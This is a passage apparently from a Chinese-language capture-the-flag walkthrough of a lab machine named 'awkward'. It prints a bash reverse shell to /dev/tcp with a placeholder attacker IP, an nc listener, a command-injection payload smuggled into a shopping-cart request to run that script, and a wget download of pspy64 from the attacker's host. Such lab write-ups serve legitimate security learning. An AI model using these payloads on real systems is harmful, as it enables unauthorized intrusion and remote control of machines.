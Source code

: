 没有vim，那就用nano在`/tmp`目录写入反弹shell文件`shell.sh`，并添加可执行权限

  

  *   *   *   *   *   *   *   *   *   * 

    
    
    bean@awkward:/tmp$ nano shell.shbean@awkward:/tmp$ cat shell.sh #!/bin/bashbash -i >& /dev/tcp/[本地IP]/[想要监听的PORT] 0>&1  
    bean@awkward:/tmp$ ls -l shell.sh -rw-rw-r-- 1 bean bean 55 Mar  4 12:29 shell.shbean@awkward:/tmp$ chmod +x shell.sh bean@awkward:/tmp$ ls -l shell.sh -rwxrwxr-x 1 bean bean 55 Mar  4 12:29 shell.sh

  

开启nc监听

  

  * 

    
    
    nc -nvlp 9001

  

打开Burpsuite，然后打开如下购物车界面，点击`Remove`的同时截获请求

![](https://gitee.com/fuli009/images/raw/master/public/20230307193115.png)

修改请求数据如下

  

  * 

    
    
    item=1'+-e+"1e+/tmp/shell.sh"+/tmp/shell.sh+'&user=959e-8a52-2e0-fc52&action=delete_item

  

![](https://gitee.com/fuli009/images/raw/master/public/20230307193117.png)

拿到www-data用户权限

![](https://gitee.com/fuli009/images/raw/master/public/20230307193118.png)

本地下一个pspy64[4]，然后开启80服务监听，再然后到bean用户的ssh窗口用wget从本地下载pspy64

![](https://gitee.com/fuli009/images/raw/master/public/20230307193119.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230307193120.png)

然后在www-
data用户窗口执行pspy64，看到inotifywait工具在监听`/var/www/private/leave_requests.csv`

![](https://gitee.com/fuli009/images/raw/master/public/20230307193121.png)

查看`/var/www/private/leave_requests.csv`内容如下，可看到是`Leave Request Database`

![](https://gitee.com/fuli009/images/raw/master/public/20230307193122.png)
